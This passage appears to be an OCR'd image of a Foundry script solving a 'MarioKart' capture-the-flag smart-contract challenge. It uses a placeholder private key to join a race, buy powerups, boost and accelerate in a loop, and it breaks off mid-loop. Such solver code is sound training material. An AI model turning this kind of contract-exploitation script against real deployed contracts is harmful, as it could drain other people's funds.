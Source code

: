 ```
    uint256 constant PRIV_KEY = <private-key>;
    address constant PLAYER_ADDRESS = <player_wallet_address>;
    
    function run() external {
        // Create VM instance
        vm.createSelectFork(RPC_URL);
        
        // Initialize contracts
        ISetup setup = ISetup(SETUP_ADDRESS);
        IMarioKart marioKart = IMarioKart(setup.getMainContract());
        
        console.log("=== MarioKart CTF Solution ===");
        console.log("Initial contract balance:", marioKart.getContractBalance() / 1e18, "ETH");
        
        // Start broadcasting with the private key
        vm.startBroadcast(PRIV_KEY);
        
        // Step 1: Join the race (1 ETH)
        console.log("\n[1/6] Joining race...");
        marioKart.joinRace{value: 1 ether}("Luigi");
        console.log("- Joined race as 'Luigi'");
        
        // Step 2: Start the race
        console.log("\n[2/6] Starting race...");
        marioKart.startRace();
        console.log("- Race started!");
        
        // Step 3: Buy Mushroom powerup (0.1 ETH)
        console.log("\n[3/6] Buying Mushroom powerup...");
        marioKart.buyMushroomPowerup{value: 0.1 ether}();
        logRacerStatus(marioKart);
        
        // Step 4: Buy Star powerup (0.5 ETH)
        console.log("\n[4/6] Buying Star powerup...");
        marioKart.buyStarPowerup{value: 0.5 ether}();
        logRacerStatus(marioKart);
        
        // Step 5: Use boost
        console.log("\n[5/6] Using boost...");
        marioKart.boost();
        logRacerStatus(marioKart);
        
        // Step 6: Accelerate until we win
        console.log("\n[6/6] Accelerating to finish line...");
        uint accelerationCount = 0;
        uint maxAttempts = 30;
        
        while (marioKart.getRacerPosition(PLAYER_ADDRESS) < 1000 && accelerationCount < maxAttempts) {
            marioKart.accelerate();
            accelerationCount++;
            
            uint position = marioKart.getRacerPosition(PLAYER_ADDRESS);
            console.log("- Acceleration %d: Position = %d, Speed = %d", 
                      accelerationCount, 
                      position,
                      marioKart.getRacerSpeed(PLAYER_ADDRESS));
            
            if (position >= 1000) {
                console.log("!!! RACE FINISHED IN POSITION 1 !!!");
                break;
            }
            
```